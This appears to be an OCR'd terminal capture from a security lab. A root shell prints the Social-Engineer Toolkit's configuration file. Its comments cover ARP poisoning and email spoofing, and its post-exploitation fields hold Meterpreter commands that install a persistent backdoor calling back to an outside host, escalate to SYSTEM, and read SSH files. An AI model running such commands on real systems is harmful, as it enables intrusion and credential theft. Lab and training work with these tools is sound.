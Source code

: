 ```
root@ip-10-10-245-241:~# whoami
root
root@ip-10-10-245-241:~# cat /etc/setoolkit/set.config
##################################################################################################
##################################################################################################
##                                                                                              ##
## The following config file will allow you to customize settings within                        ##
## the Social-Engineer Toolkit. The lines that do not have comment code		            ##
## ("#") are the fields you want to toy with. They are pretty easy to		                ##
## understand.									                                        ##
##										                                                        ##
## The Metasploit path is the default path for where Metasploit is located.	            ##
## Metasploit is required for SET to function properly.				                        ##
##									                                                            ##
## The "ETTERCAP" option specifies if you want to use ARP cache poisoning in	            ##
## conjunction with the web attacks; note that ARP cache poisoning is only	                    ##
## for internal subnets only and does not work against people on the Internet.	                ##
##								                                                                ##
## The "SENDMAIL" option allows you to spoof source IP addresses utilizing an                   ##
## program called Sendmail. Sendmail is not installed by default on Kali.	                ##
## To spoof email addresses when performing the mass email attacks, you must                    ## 
## install Sendmail manually using the command: "apt-get install sendmail"	                    ##
#							                                                                    ##
## Note that "ETTERCAP" and "SENDMAIL" options only accept ON or OFF switches.	                ##
##										                                                        ##
## Note that the "Metasploit_PATH" option cannot have a '/' after the folder name.		        ##
##							                                                                    ##
## There are additional options; read the comments for additional descriptions.            ##
##										                                                ##
## CONFIG_VERSION=7.7.9								                                    ##
##								                                                                ##
##################################################################################################
##################################################################################################
#
### Define the path to Metasploit. For example: /opt/metasploit/apps/pro/msf3
METASPLOIT_PATH=/opt/metasploit-framework-5101/
#
### This will tell what database to use when using Metasploit. The default is PostgreSQL.
METASPLOIT_DATABASE=postgresql
#
### Define how many times SET should encode a payload if you are using standard Metasploit encoding options.
ENCOUNT=4
#
### If this option is set, the Metasploit payloads will automatically migrate to
### Notepad once the applet is executed. This is beneficial if the victim closes
### the browser; however, this can introduce buggy results when auto migrating.
### Note that this will make bypassuac not work properly. Migrate to a different process to get it to work.
AUTO_MIGRATE=OFF
#
### Here, we can run multiple Meterpreter scripts once a session is active. This
### may be important if we are sleeping and need to run persistence, elevate
### permissions, or complete other tasks in an automated fashion. First, turn this trigger on, and
### then configure the options. Note that you need to separate the commands by a ';'.
METERPRETER_MULTI_SCRIPT=OFF
LINUX_METERPRETER_MULTI_SCRIPT=OFF
#
### Determine what commands you want to run once a Meterpreter session has been established.
### If you want multiple commands, separate them by a ';'. For example you could do
### "run getsystem;run hashdump;run persistence" to run three different commands.
METERPRETER_MULTI_COMMANDS=run persistence -r 192.168.1.5 -p 21 -i 300 -X -A;getsystem
LINUX_METERPRETER_MULTI_COMMANDS=uname;id;cat ~/.ssh/known_hosts
```
